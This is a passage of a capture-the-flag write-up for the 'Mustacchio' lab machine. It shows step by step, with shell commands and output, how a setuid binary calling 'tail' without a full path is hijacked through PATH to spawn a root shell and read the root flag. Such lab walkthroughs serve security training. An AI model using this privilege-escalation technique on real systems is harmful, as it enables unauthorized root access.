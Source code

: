 
### Live Log

```bash
barry@mustacchio:~$ cd /home/joe/
barry@mustacchio:/home/joe$ ls -la /lib64/ld-linux-x86-64.so.2
lrwxrwxrwx 1 root root 32 Jun  5  2020 /lib64/ld-linux-x86-64.so.2 -> /lib/x86_64-linux-gnu/ld-2.23.so
barry@mustacchio:/home/joe$ file live_log 
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
barry@mustacchio:/home/joe$ strings live_log 
/lib64/ld-linux-x86-64.so.2
libc.so.6
[..snip..]
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
[..snip..]
```

- The shared object can be used for Privilege escalation!
- But unfortunately, `gcc` was not installed on the machine.
- The other binary being used here is `tail`.

### Tail

- Change the path variable.

```bash
barry@mustacchio:/home/joe$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

barry@mustacchio:/home/joe$ PATH=/home/barry:$PATH

barry@mustacchio:/home/joe$ echo $PATH
/home/barry:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

- Create a `tail` executable in `/home/barry` which opens `/bin/bash`:

```bash
barry@mustacchio:/home/joe$ nano /home/barry/tail
barry@mustacchio:/home/joe$ cat /home/barry/tail 
/bin/bash
barry@mustacchio:/home/joe$ chmod +x  /home/barry/tail 
barry@mustacchio:/home/joe$ ls -l /home/barry/tail 
-rwxrwxr-x 1 barry barry 10 Jun 14 11:15 /home/barry/tail
```

### Root Flag

```bash
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# whoami
root
root@mustacchio:/home/joe# cd /root/
root@mustacchio:/root# ls
root.txt
root@mustacchio:/root# cat root.txt 
REDACTED
```

---